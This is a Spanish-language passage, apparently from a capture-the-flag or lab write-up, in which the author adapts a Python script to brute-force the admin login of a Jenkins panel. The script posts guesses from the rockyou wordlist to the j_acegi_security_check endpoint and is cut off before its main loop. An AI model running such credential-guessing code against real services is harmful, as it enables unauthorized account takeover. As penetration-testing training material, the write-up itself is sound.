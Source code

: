 ![](/assets/img/internal/jenkis.png)
En este panel tambien vamos a aplicar fuerza bruta, voy a modificar el script que utilize para el wordpress y adaptarlo para el jenkins.

```python
import threading, pdb
import requests
import sys
from pwn import *

# Variables globales
url_login = 'http://127.0.0.1:8080/j_acegi_security_check'
found_pass = False
l1 = log.progress("Password")
l2 = log.progress("Counter")

def makeBruteForce(password):
    
    global found_pass

    post_data = {
        "j_username":"admin",
        "j_password":password,
        "from":"/",
        "Submit":"Sign+in"
    }
    
    r = requests.post(url_login, data=post_data)
    
    if r.status_code == 200:
        l1.success("password found %s " % password)
        found_pass = True
    
#    return

def makeRequest():

    f = open('/usr/share/wordlists/rockyou.txt', 'rb')
    length = 14344393
    count = 0
    threads = [] # Creamos la lista de hilos vacía

```